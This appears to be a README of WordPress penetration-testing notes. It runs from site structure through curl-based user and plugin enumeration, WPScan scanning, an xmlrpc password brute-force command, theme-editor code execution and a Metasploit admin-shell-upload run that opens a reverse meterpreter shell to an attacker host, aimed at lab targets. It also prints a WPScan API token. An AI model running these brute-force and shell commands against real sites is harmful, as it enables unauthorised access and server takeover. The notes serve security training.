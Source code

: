 Basic Wordpress and Wordpress Structure

fireWordpress Structure fire

WordPress can be installed on a Windows, Linux, or Mac OSX host. For this module, we will focus on a default WordPress installation on an Ubuntu Linux web server. WordPress requires a fully installed and configured LAMP stack (Linux operating system, Apache HTTP Server, MySQL database, and the PHP programming language) before installation on a Linux host. After installation, all WordPress supporting files and directories will be accessible in the webroot located at /var/www/html.



Below is the directory structure of a default WordPress install, showing the key files and subdirectories necessary for the website to function properly.



tree -L 1 /var/www/html



├── index.php

├── license.txt

├── readme.html

├── wp-activate.php

├── wp-admin

├── wp-blog-header.php

├── wp-comments-post.php

├── wp-config.php

├── wp-config-sample.php

├── wp-content

├── wp-cron.php

├── wp-includes

├── wp-links-opml.php

├── wp-load.php

├── wp-login.php

├── wp-mail.php

├── wp-settings.php

├── wp-signup.php

├── wp-trackback.php

└── xmlrpc.php

alien Key WordPress Files female_sign

The root directory of WordPress contains files that are needed to configure WordPress to function correctly.



index.php is the homepage of WordPress.



license.txt contains useful information such as the version WordPress installed.



wp-activate.php is used for the email activation process when setting up a new WordPress site.



wp-admin folder contains the login page for administrator access and the backend dashboard. Once a user has logged in, they can make changes to the site based on their assigned permissions. The login page can be located at one of the following paths:

/wp-admin/login.php

/wp-admin/wp-login.php

/login.php

/wp-login.php

This file can also be renamed to make it more challenging to find the login page.



xmlrpc.php is a file representing a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism. This type of communication has been replaced by the WordPress REST API.

WordPress Configuration File



WordPress Configuration File

The wp-config.php file contains information required by WordPress to connect to the database, such as the database name, database host, username and password, authentication keys and salts, and the database table prefix. This configuration file can also be used to activate DEBUG mode, which can useful in troubleshooting.

wp-config.php



Code: php



<?php

/** <SNIP> */

/** The name of the database for WordPress */

define( 'DB_NAME', 'database_name_here' );



/** MySQL database username */

define( 'DB_USER', 'username_here' );



/** MySQL database password */

define( 'DB_PASSWORD', 'password_here' );



/** MySQL hostname */

define( 'DB_HOST', 'localhost' );



/** Authentication Unique Keys and Salts */

  /* <SNIP> */

define( 'AUTH_KEY',        'put your unique phrase here' );

define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );

define( 'LOGGED_IN_KEY',    'put your unique phrase here' );

define( 'NONCE_KEY',        'put your unique phrase here' );

define( 'AUTH_SALT',        'put your unique phrase here' );

define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );

define( 'LOGGED_IN_SALT',  'put your unique phrase here' );

define( 'NONCE_SALT',      'put your unique phrase here' );



/** WordPress Database Table prefix */

$table_prefix = 'wp_';



/** For developers: WordPress debugging mode. */

/** <SNIP> */

define( 'WP_DEBUG', false );



/** Absolute path to the WordPress directory. */

if ( ! defined( 'ABSPATH' ) ) {

define( 'ABSPATH', __DIR__ . '/' );

}



/** Sets up WordPress vars and included files. */

require_once ABSPATH . 'wp-settings.php';

Key WordPress Directories

The wp-content folder is the main directory where plugins and themes are stored. The subdirectory uploads/ is usually where any files uploaded to the platform are stored. These directories and files should be carefully enumerated as they may lead to contain sensitive data that could lead to remote code execution or exploitation of other vulnerabilities or misconfigurations.



WP-Content

tree -L 1 /var/www/html/wp-content



├── index.php

├── plugins

└── themes

WP-Includes

wp-includes contains everything except for the administrative components and the themes that belong to the website. This is the directory where core files are stored, such as certificates, fonts, JavaScript files, and widgets.



tree -L 1 /var/www/html/wp-includes



├── theme.php

├── update.php

├── user.php

├── vars.php

├── version.php

├── widgets

├── widgets.php

├── wlwmanifest.xml

├── wp-db.php

└── wp-diff.php

WordPress User Roles

There are five types of users in a standard WordPress installation.



Role           Description

Administrator This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as                        editing source code.

Editor     An editor can publish and manage posts, including the posts of other users.

Author     Authors can publish and manage their own posts.

Contributor These users can write and manage their own posts but cannot publish them.

Subscriber These are normal users who can browse posts and edit their profiles.

Gaining access as an administrator is usually needed to obtain code execution on the server. However, editors and authors might have access to certain vulnerable plugins that normal users do not.



1st_place_medalEnumeration Procedure For Wordpress Website in Manually

Wordpress Version Check

Check Wordpress Version using given below curl command or seeing source code



commnad:

        curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'

Also check WP Version - CSS and WP Version - JS version from Source Code



arrow_forward Plugins and Themes Enumeration

Commnad For Plugins:



  curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

Command For Themmes:



  curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2

fast_forward User Enumeration

Enumerating a list of valid users is a critical phase of a WordPress security assessment. Armed with this list, we may be able to guess default credentials or perform a brute force password attack. If successful, we may be able to log in to the WordPress backend as an author or even as an administrator. This access can potentially be leveraged to modify the WordPress website or even interact with the underlying web server.



Command :



    curl http://blog.inlanefreight.com/wp-json/wp/v2/users

arrow_heading_downEnumeration Procedure For Wordpress Website in Automatically Using wpscan

WPScan is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a WordPress site are outdated or vulnerable. It is installed by default on Parrot OS ,Kali OS but can also be installed manually with gem gem install wpscan Once the installation completes, we can issue a command such as wpscan --hh to verify the installation. This command will show us the usage menu with all of the available command-line switches available.



fireEnumerating a Website with WPScan atom_symbol

The --enumerate flag is used to enumerate various components of the WordPress application such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to specific components. For example, all plugins can be enumerated using the arguments --enumerate ap. Let's run a normal enumeration scan against a WordPress website. Command :



        wpscan --url http://blog.inlanefreight.com --enumerate --api-token api-token-value

Example :



        wpscan --url http://10.129.2.37/ --enumerate --api-token cs0QRHwsYE6RvLd6SaHDhI1dmNX8ZVLEx0Fb7mNid9s

eyesNote: Api Token Generator Link https://wpscan.com/

heavy_check_mark Exploiting a Vulnerable Plugin

If we are checking and testing properly of our target wordpress website and if target wordpress website is vulneable we will see some CVE or Exploite information after using above wpscan command



ballot_box_with_checkWordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, xmlrpc and wp-login. The wp-login method will attempt to brute force the normal WordPress login page, while the xmlrpc method uses the WordPress API to make login attempts through /xmlrpc.php. The xmlrpc method is preferred as it is faster.



Command :



      wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

eyeNote: use username and password in http://sitename/login path

fireRemote Code Execution (RCE) via the Theme Editor fire

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on Appearance on the side panel and select Theme Editor. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.



fireAttacking WordPress with Metasploit fire

We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.



To obtain the reverse shell, we can use the wp_admin_shell_upload module. We can easily search for it inside MSF:

    msf5 > search wp_admin

Matching Modules

0 exploit/unix/webapp/wp_admin_shell_upload 2015-02-21 excellent Yes WordPress Admin Shell Upload



Module Selection:

msf5 > use 0



msf5 exploit(unix/webapp/wp_admin_shell_upload) >



Module Options

    msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

  PASSWORD                    yes      The WordPress password to authenticate with

  Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]

  RHOSTS                      yes      The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'

  RPORT      80              yes      The target port (TCP)

  SSL        false            no        Negotiate SSL/TLS for outgoing connections

  TARGETURI  /                yes      The base path to the wordpress application

  USERNAME                    yes      The WordPress username to authenticate with

  VHOST                      no        HTTP server virtual host

Exploit target:



  Id  Name

  --  ----

  0  WordPress

set and Exploitation

msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com

msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin

msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020

msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8

msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

meterpreter > getuid Server username: www—data (33)



prayPracticing Sites:

              https://tryhackme.com/room/allinonemj

              https://tryhackme.com/room/wordpresscve202129447

              https://tryhackme.com/room/blog

fireworks Website Security Testing Site:

                              https://sitecheck.sucuri.net/ 



Install https://github.com/cyberteach360/Hacking-Wordpress  

